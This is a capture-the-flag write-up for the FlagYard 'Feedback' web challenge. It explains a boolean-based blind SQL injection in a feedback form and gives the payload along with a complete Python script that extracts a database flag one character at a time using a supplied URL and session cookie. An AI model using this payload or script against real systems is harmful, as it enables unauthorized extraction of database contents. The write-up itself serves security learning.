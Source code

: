 # Feedback

**Challenge Name**: Feedback  
**Category**: Web  
**Points**: 120  
**Platform**: FlagYard

## Challenge Overview:
The **Feedback** challenge involves exploiting a **SQL Injection** vulnerability in a web application’s feedback submission form. The goal is to extract a flag hidden in the database by using **Boolean-based blind SQL Injection** to reveal each character of the flag, one at a time.

### Exploitation Process:

#### 1. **Identifying the Vulnerability**:
The challenge provides an input field where users can submit feedback. By inspecting the request headers and body, I identified that the feedback form used SQL queries to store and retrieve feedback data. The **SQL Injection** vulnerability allowed me to inject malicious SQL queries to interact with the backend database.

#### 2. **Crafting the SQL Injection Payload**:
To retrieve the flag, I crafted a **SQL Injection** payload that would:
- Use a **substring function** to pull one character of the flag at a time.
- Use a **conditional query** to check if the guessed character matches the one stored in the database.

The payload used the following logic:
```sql
ana'||(select CASE WHEN substr((select flag from flag),{position},1)='{character}' THEN 1 ELSE 1/0 END)||'s
```
Where `{position}` represents the character position in the flag (ranging from 1 to 64), and `{character}` is a character from ASCII 32 to 126.

#### 3. **Automating the SQL Injection**:
The script automates the entire process of injecting the payload and checking the response. It:
- Loops over each position of the flag.
- Loops over possible characters (from ASCII 32 to 126) to guess each character of the flag.
- Sends the payload and checks if the response contains the flag at that position.

#### 4. **Receiving Feedback**:
The feedback submission response was checked by the script. If the injection was successful, the server would return a valid response (not an error message like "Something went wrong"). If the character matched, the script would append the character to the flag string and continue to the next character.

#### 5. **Displaying the Flag**:
After the script successfully identifies all characters of the flag, it prints out the complete flag.

---

## Code:

```python
import requests
import re
import itertools
import time
import sys
import threading


print('''  
               #########               
            ###############            
         #####################         
      ###########################      
   ##############     ##############   
 #############           ############# 
###########                 ########### 
########                       ########
#######                         #######
#######                         #######
#######                         #######
#######                         #######
#######                         #######
#######                         #######
#######                         #######
########                       ########
###########                 ###########
 #############           ############# 
   ##############     ##############   
      ###########################      
         #####################         
            ###############            
               #########               

Welcome To FlagYard Feedback CTF Tool    
''')

print("Please enter the URL:")
url = input("# ")
host = re.sub(r'http://|/$', '', url)
print("=> URL : ", url)
print("[+] Please Enter Your Cookie Session")
token = input("# ")
print("=> Session : ", token)
print("[+] Do you want to see the program trying to display flag? (y/n) ")
debug = input("# ")
while debug not in ["y", "n"]:
    print("[+] Please enter 'y' or 'n'")
    debug = input("# ")

def loading_animation():
    spinner = itertools.cycle(['-', '/', '|', '\\'])
    while getattr(threading.current_thread(), "do_run", True):
        sys.stdout.write(f'\rNow we are getting the flag, please wait {next(spinner)}')
        sys.stdout.flush()
        time.sleep(0.1)

if debug == "n":
    loading_thread = threading.Thread(target=loading_animation)
    loading_thread.start()


def dosqli(url, data):
    headers = {
    "Host": host,
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Connection": "close",
    "Cookie": f"session={token}"
    }
    response = requests.post(url, headers=headers, data=data)
    if "Something went wrong" in response.text:
        return "Wrong"
    else:
        return "Correct"


flag = []
for i in range(1, 65):
    for j in range(32, 126):
        payload = f"ana'||(select CASE WHEN substr((select flag from flag),{str(i)},1)='{chr(j)}' THEN 1 ELSE 1/0 END)||'s"
        data = {"feedback": payload}
        out = dosqli(url, data)
        if out == "Correct":
            flag.append(chr(j))
            sys.stdout.write(chr(j))
            sys.stdout.flush()
            break

if debug == "n":
    loading_thread.do_run = False
    loading_thread.join()

print(f"\nFinal flag: {''.join(flag)}")
print("Done")
```

---

### Conclusion:
The **Feedback** challenge required exploiting an **SQL Injection** vulnerability in the web application to extract the flag. By automating the process of sending **Boolean-based SQL queries**, I was able to progressively guess the characters of the flag and ultimately retrieve it. This challenge is a great example of using SQL injection techniques in a real-world application, emphasizing the importance of securing user inputs in web applications.
